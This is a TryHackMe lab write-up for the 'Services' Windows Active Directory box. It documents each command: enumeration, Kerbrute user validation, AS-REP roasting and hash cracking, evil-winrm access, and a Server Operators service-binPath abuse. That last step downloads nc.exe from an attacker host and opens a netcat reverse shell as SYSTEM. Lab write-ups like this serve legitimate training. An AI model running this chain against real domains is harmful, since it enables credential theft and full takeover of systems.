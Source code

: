 # 🧪 Services – TryHackMe

**IP Address:** `10.201.39.158`  
**Difficulty:** Medium  
**Platform:** TryHackMe  

---

## 🧭 Overview

This box was a Windows Server in an Active Directory environment.  
The attack path involved enumerating usernames from a website, validating them with Kerbrute, performing an AS-REP roast to get a password, obtaining WinRM access, and then abusing `Server Operators` group membership to modify a service for privilege escalation to SYSTEM.

---

## 🔍 Enumeration

### Nmap / Rustscan
```bash
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full
```
**Findings:**
- Domain: `services.local`
- SMB signing: Enabled, required
- Ports: 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 5985, 47001, multiple high RPC ports
- Web server: Microsoft IIS 10.0
- Kerberos: 88/tcp
- WinRM: 5985/tcp

---

### SMB Enumeration
```bash
netexec smb $target -u '' -p ''
netexec smb $target -u 'guest' -p ''
```
- Null session allowed enumeration of hostname/domain.
- Guest account disabled.

---

### Web Enumeration
- Found `j.doe@services.local` on the site.
- `/aboutus` contained:
```
Joanne Doe
Jack Rock
Will Masters
Johnny Larusso
```

---

### Username Generation
```bash
python ~/THM/Roasted/AD-Username-Generator/username-generate.py -u users.txt -o generated_users.txt
```

---

### Kerbrute User Enumeration
```bash
kerbrute userenum generated_users.txt --dc $target -d services.local
```
**Valid users found:**
- `j.doe@services.local`
- `w.masters@services.local`
- `j.rock@services.local`
- `j.larusso@services.local`

---

### AS-REP Roasting
```bash
impacket-GetNPUsers services.local/ -dc-ip $target -usersfile kusers.txt -outputfile hashes.txt
```
- Only `j.rock` vulnerable.

**Hash cracked with:**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# Password: Serviceworks1
```

---

## 🎯 Foothold

### WinRM Access
```bash
netexec winrm $target -u 'j.rock' -p 'Serviceworks1'
evil-winrm -u 'j.rock' -p 'Serviceworks1' -i $target
```
Retrieved `user.txt`:
```
THM{ASr3p_R0****************}
```

---

## 🚀 Privilege Escalation

### Enumeration
- `whoami /all` → Member of **Server Operators** group.
- Server Operators can start/stop services and modify their executables.

---

### Service Abuse
Identified `AWSLiteAgent` service running with SYSTEM privileges.

Uploaded netcat:
```powershell
wget http://<attacker-ip>/nc.exe -o nc.exe
```

Changed service binary path:
```powershell
sc.exe config AWSLiteAgent binPath="C:\Users\j.rock\Desktop\nc.exe -e cmd.exe <attacker-ip> 80"
sc.exe stop AWSLiteAgent
sc.exe start AWSLiteAgent
```

---

### SYSTEM Shell
```bash
nc -lvnp 80
```
Connected as `NT AUTHORITY\SYSTEM`.

Retrieved `root.txt`:
```
THM{S3rv3r_0p************}
```

---

## 📜 Lessons Learned
- Always enumerate users from web content; many AD footholds start there.
- AS-REP roasting is quick win when pre-auth is disabled.
- `Server Operators` group is dangerous — service binary replacement is an easy SYSTEM privesc.

---

## 🖼 Proof
![Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/Other/THM/Services/proof.png)
